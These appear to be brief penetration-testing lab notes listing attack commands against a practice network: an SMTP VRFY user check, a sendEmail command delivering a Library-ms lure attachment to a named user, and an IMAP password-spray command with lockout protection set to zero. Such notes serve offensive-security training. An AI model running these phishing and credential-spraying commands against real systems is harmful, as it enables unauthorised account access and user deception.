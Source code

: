 #email


```bash
VRFY root
```

#### SendEmails

```bash
sendEmail -t "Dave.Wizard@supermagicorg.com" -f "test@supermagicorg.com" -u "Subject" -a config.Library-ms -s 192.168.236.199  -m "Check out this config" -xu "test@supermagicorg.com"  -xp "test"
```


### Password Spray

```bash
sudo poetry run ./imapsprayer.py -t 192.168.222.189 -U ~/boxes/relia/emails.txt -P ~/boxes/relia/pass.txt --lockout 0
```
